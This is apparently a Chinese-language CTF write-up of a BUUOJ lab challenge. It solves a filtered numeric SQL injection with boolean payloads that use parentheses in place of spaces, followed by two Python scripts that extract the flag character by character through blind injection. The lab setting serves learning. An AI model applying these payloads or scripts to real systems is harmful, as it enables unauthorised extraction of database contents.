本文为记录个人信安小白的刷题路程，大佬勿喷，也同时希望文章能对您有所帮助
打开靶机，发现一个查询入口，提示给了我们两个信息：
1.flag表中的列flag存放着flag，直接将flag的位置给我们了；
2.只需要提交id即可，说明是一个数值型注入漏洞。
看看提交会获得什么，






可以查询到两条数据，
试试联合查询，


发现被过滤了，
Burp抓包爆破一下看看过滤了哪些关键字和函数，


发现or、-、#、；、and、空格、updatexml、union等很多关键字都被过滤了，
说明联合查询、报错注入以及堆叠注入都不能使用了，
但是ascii没有被过滤，substr也没被过滤，空格被过滤了，可以使用()来绕过，
测试布尔注入，
1
| (ascii(substr((select(flag)from(flag)),1,1))=102)
|


1
| (ascii(substr((select(flag)from(flag)),1,1))=103)
|


布尔注入可行，
运用sql的三目运算
if( 表达式1，表达式2，表达式3)
如果表达式1是正确的，那么执行表达式2，否则执行表达式3。
编写脚本进行爆破，
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
| import requests
url = 'http://328dc816-185e-4700-9858-9e55659af952.node5.buuoj.cn:81/index.php'
result = []
for x in range(1, 50):
high = 127
low = 32
mid = (low + high) // 2
while high > low:
payload = f"if(ascii(substr((select(flag)from(flag)),{x},1))>{mid},1,2)"
data = {"id": payload}
response = requests.post(url, data=data)
if 'Hello' in response.text:
low = mid + 1
else:
high = mid
mid = (low + high) // 2
char = chr(mid)
result.append(char)
current_flag = ''.join([c if 32 <= ord(c) <= 126 else '.' for c in result])
print(f"\rProgress: {x}/49 | Flag: {current_flag}", end='', flush=True)
print(f"\nFinal Flag: {''.join(result).replace(chr(0), '')}")
|
如果程序进行中出现请求超时问题，试试优化版，
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
| import requests
from requests.adapters import HTTPAdapter
from urllib3.util.retry import Retry
import sys
url = 'http://10ff8529-1763-45e4-9b0b-cf08962623c3.node5.buuoj.cn:81/index.php'
result = []
null_count = 0
session = requests.Session()
retry = Retry(total=3, backoff_factor=0.5, status_forcelist=[500, 502, 503, 504])
adapter = HTTPAdapter(max_retries=retry)
session.mount('http://', adapter)
session.mount('https://', adapter)
for x in range(1, 50):
if null_count >= 3:
break
high = 127
low = 32
mid = (low + high) // 2
while high > low:
payload = f"if(ascii(substr((select(flag)from(flag)),{x},1))>{mid},1,2)"
data = {"id": payload}
try:
response = session.post(url, data=data, timeout=10)
except Exception as e:
print(f"\n位置 {x} 请求失败: {str(e)}")
sys.exit(1)
if 'Hello' in response.text:
low = mid + 1
else:
high = mid
mid = (low + high) // 2
if mid < 32 or mid > 126:
char = '?'
null_count += 1
else:
char = chr(mid)
null_count = 0 if char != '\x00' else null_count + 1
result.append(char)
current_flag = ''.join([c if 32 <= ord(c) <= 126 else '.' for c in result])
print(f"\rProgress: {x}/49 | Flag: {current_flag}", end='', flush=True)
print(f"\nFinal Flag: {''.join(result).replace(chr(0), '')}")
|
运行代码获得flag